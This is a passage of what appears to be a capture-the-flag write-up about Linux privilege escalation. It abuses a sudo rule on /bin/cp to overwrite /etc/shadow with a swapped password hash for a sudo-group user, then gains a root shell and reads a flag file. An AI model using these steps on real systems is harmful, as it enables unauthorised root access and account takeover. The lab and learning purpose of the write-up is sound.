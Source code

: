 ...
root	ALL=(ALL:ALL)
franky	...				:NOPASSWORD	/bin/cp # Change /bin/cp to /bin/bash
...


:wq
```

```
[franky@ubuntu]$ sudo -s 
[root@ubuntu]# 
```

## Modify password ```/etc/shadow``` of a user in ```sudo``` group
```
[franky@ubuntu]$ cat /etc/group | grep sudo
> sudo:x:27:tester
[franky@ubuntu]$ touch my_shadow
[franky@ubuntu]$ sudo cp /etc/shadow my_shadow
[franky@ubuntu]$ vi my_shadow
```

ViM screen
```

...
tester:$6$t72esmkL$0jGigluRhSPsvKXttv/KFr66QvrLQNq4A2EkXZFZmSIAhWeLMmQc57uG9K2O14sJoXNdT9MjcvwM53EoBKG0O1:17954:0:99999:7:::
franky:$6$5r7X8q0p$8/mDvW4mkkuXNwmGU78TlE1n3JXf1hHNZwKbZlDjdchRGE.7cRb/IwwclWQtKeWUIR0IMbKzIcY8OIOfOVFhE0:17949:0:99999:7:::
...


:wq
```

```
[franky@ubuntu]$ sudo cp -f my_shadow /etc/shadow
[franky@ubuntu]$ su tester
Password: 3d2yhijinbe
[tester@ubuntu]$ sudo -s
Password: 3d2yhijinbe
[root@ubuntu]# 
```

## Capture The Flag

```
[root@ubuntu]# cd /root
[root@ubuntu]# ls
> rwx------		root	root	flag.txt
> rwx------		root	root	smb.conf
[root@ubuntu]# vi flag.txt
```

```
Key=alabasta # Change it to whatever you like
```
